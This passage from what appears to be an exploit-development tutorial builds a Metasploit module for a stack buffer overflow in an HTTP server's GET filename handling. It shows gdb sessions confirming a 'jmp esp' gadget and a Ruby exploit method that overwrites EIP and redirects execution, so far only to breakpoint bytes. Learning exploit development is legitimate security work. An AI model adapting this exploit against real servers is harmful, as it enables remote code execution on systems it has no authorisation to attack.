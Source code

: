 Attach gdb, set a breakpoint on the `0x08049f4f` address, and send the exploit

{% highlight bash %}
(gdb) x/1i 0x08049f4f
0x8049f4f: jmp    esp
(gdb) b *0x08049f4f
Breakpoint 1 at 0x8049f4f
(gdb) c
Continuing.
[New process 31596]
[Switching to process 31596]

Breakpoint 1, 0x08049f4f in ?? ()
(gdb) x/1i $eip
=> 0x8049f4f:  jmp    esp
(gdb) x/4x $esp-4
0xbff96bbc:  0x08049f4f  0x42424242  0x42424242  0x42424242
(gdb)
{% endhighlight %}

Confirmed we are hitting the `jmp esp` gadget and that `esp` points to the string of 'B's.

Replace the 'B's with a `jmp esi`. Metasploit comes with a library to convert instructions to opcodes named Metasm. Replace the payload with breakpoints to confirm execution.

{% highlight Ruby %}
def exploit
  connect

  # Overwrite eip with the address of our payload
  junk = "A" * 139
  ret = [0x08049f4f].pack('V')
  jmp_esi = Metasm::Shellcode.assemble(Metasm::Ia32.new, "jmp esi").encode_string
  trailing_junk = "B" * ( 200 - junk.length - ret.length - jmp_esi.length )
  filename = junk + ret + jmp_esi + trailing_junk

  # For now make the payload breakpoints
  sploit = "GET #{filename} HTTP/1.1" + "\xcc" * 200

  # Send the payload
  sock.put(sploit)

  handler
  disconnect
end
{% endhighlight %}

Attach gdb, reload the module, and send the exploit:

{% highlight bash %}
(gdb) c
Continuing.
[New process 31802]

Program received signal SIGTRAP, Trace/breakpoint trap.
[Switching to process 31802]
0xbff96cae in ?? ()
(gdb) x/4x $eip
0xbff96cae: 0xcccccccc  0xcccccccc  0xcccccccc  0xcccccccc
(gdb)
{% endhighlight %}
